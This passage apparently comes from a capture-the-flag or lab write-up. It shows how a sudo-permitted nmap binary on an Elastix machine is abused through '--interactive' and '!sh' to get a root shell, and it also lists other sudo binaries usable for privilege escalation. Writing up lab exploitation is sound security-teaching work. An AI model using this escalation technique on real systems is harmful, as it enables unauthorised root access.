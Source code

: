 ```
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
Also according to [GTFOBins](https://gtfobins.github.io/) we can privesc with the following: nmap, yum, chmod, chown, service.  
Let's use nmap as suggested by 18650.py, now we can do the following:
```
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
